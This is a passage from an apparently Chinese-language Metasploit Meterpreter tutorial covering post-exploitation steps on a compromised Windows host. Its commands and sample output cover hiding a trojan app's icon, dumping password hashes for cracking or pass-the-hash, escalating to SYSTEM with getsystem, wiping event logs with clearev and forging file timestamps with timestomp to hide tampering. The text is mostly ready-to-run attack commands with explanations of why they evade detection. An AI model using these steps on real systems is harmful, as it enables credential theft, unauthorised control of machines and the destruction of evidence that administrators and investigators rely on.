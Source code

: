 ### 隐藏木马应用图标

```shell
> hide_app_icon
```

## 其他常用功能汇总

### windows中hash密码的使用

拿到目标主机hashdump值目的就是获取目标主机的登录密码，可以通过**L0phtCrack**或者**ophcrack**等工具进行破解得到明文密码。但有时候也并不是需要破解hash值，metasploit里有很多功能功能可以通过hash传递获取目标主机权限。

```shell
# dump出目标主机用户名密码
meterpreter > hashdump
admin:1007:f0d412bd764ffe81aad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:496f4dcd132458b604fd1c9a01b28dc9:788d18962d30303246126d61f1fed54c:::
metasploit:1006:ab594876e19d0e7b3fa46817fc0ee1fb:d1508f574ec4ce7358fb0c87949072a7:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:00f0e7d86e6837feb487c8f18eeace02:::
wangjun:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### 终端shell权限提升

```shell
# 查看当前用户
meterpreter > getuid
Server username: EVAN\wangjun
# 获取系统用户权限
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
# 再次查看当前用户，已变更
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 清理踪迹日志

当在目标主机上做了很多操作时，系统默认将一些特殊的操作以日志的形式记录在系统中，如果不刻意的清理日志，很容易会被追查出来。

```shell
meterpreter > clearev
[*] Wiping 0 records from Application...
[*] Wiping 0 records from System...
```

### 修改文件时间戳

对目标系统某个文件进行操作后，默认文件的时间会更新，在一些谨慎的管理员眼中很容易识别出文件已经被修改过或查阅过，此时需要将文件的时间戳改变为初始的状态。

```shell
# 查看文件的MACE值得，MACE是四个时间的首字母
meterpreter > timestomp -v secret.doc
Modified      : 2016-06-04 22:25:44 +0800
Accessed      : 2016-06-04 23:20:41 +0800
Created       : 2016-06-04 22:25:44 +0800
Entry Modified: 2016-06-04 22:30:36 +0800
# 修改目标文件时间
meterpreter > timestomp secret.doc -c "1/15/2015 15:15:25"
meterpreter > timestomp secret.doc -a "1/15/2015 15:15:25"
meterpreter > timestomp secret.doc -m "1/15/2015 15:15:25"
meterpreter > timestomp secret.doc -e "1/15/2015 15:15:25"
# 以另一个文件的时间戳为基础修改
meterpreter > timestomp secret.doc -f C:\\WINNT\\system32\\cmd.exe
```